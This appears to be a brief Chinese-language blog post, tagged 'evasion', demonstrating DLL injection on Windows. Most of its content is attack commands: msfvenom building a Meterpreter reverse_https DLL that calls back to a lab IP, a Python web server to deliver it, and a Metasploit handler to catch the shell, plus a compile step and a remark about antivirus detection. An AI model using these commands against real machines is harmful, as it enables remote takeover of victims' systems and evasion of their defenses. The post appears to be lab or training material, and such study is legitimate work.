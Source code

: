 ```yaml
---
title: dll注入的演示
categories:
- evasion
tags:
- evasion
---
```


## 前景提要
[whale的DLLHijack本地提权教程](https://www.acfun.cn/v/ac12864807)

[进程注入与迁移](https://www.bilibili.com/video/BV1UA411K7C8)

## 本期内容
dll注入的演示

1.exe
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-07-11/1]($res/1.PNG)

2.exe

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-07-11/2]($res/2.PNG)

msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.123.138 lport=2333 -f dll -o whale.dll

python -m SimpleHTTPServer 80

handler -H 192.168.123.138 -P 2333 -p windows/x64/meterpreter/reverse_https

## 小实验
“C:\Program Files (x86)\Microsoft Visual Studio\2019\Enterprise\MSBuild\Current\Bin\Roslyn\csc.exe” /unsafe /platform:x64 2.cs

缺点：dll落盘，会被杀软查杀

## 参考资料
https://github.com/tyranid/DotNetToJScript

